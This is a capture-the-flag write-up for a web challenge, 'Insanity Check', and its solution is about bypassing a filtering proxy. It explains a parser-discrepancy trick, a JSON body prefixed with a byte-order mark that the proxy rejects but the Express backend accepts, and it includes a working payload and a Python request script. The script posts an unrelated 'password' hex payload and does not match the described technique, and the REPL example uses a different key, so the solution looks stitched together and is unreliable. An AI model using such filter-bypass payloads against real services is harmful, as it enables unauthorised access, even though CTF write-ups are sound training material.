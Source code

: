 # Insanity Check

## Setup
```
cd build
docker compose up
```
Ora il sito è disponibile al link: [http://localhost:4567](http://localhost:4567).

## Descrizione
@benjamin ha scoperto i firewall???

Corri a fare first blood: [http://www.beginner.havce.it:8080](http://www.beginner.havce.it:8080).


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
You should make a JSON that satisfies the following conditions:

* The `backend` server, i.e. a JSON parser of Express, recognizes it as a JSON containing a key `dammilaflag`.
* The `proxy` server fails to parse it as a JSON value at `JSON.parse(req.body)`.
  
In conclusion, the following JSON satisfies them where `\ufeff` is a BOM:
```js
\ufeff{"dammilaflag": true}
```

Web frameworks often allow JSON values to be added a BOM at the beginning. For example, Fastify and Express check a BOM at:

* Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
* Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

On the other hand, JSON.parse does not allow a BOM:
```js
> JSON.parse('{"givemeflag": true}')
{ givemeflag: true }
> JSON.parse('\ufeff{"givemeflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"givemef"... is not valid JSON
```

```py
# Author: @benjamin

import requests

url = "http://www.beginner.havce.it:8080"

# 192145884 --> numero più grande --> hex(192145884) = 0xb73e9dc
# 192014812 --> numero
# 131072    --> differenza --> hex(131072) = 0x20000

payload = {
    "password": "0xb73e9dc-0x20000"
}

r = requests.post(url, data=payload)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
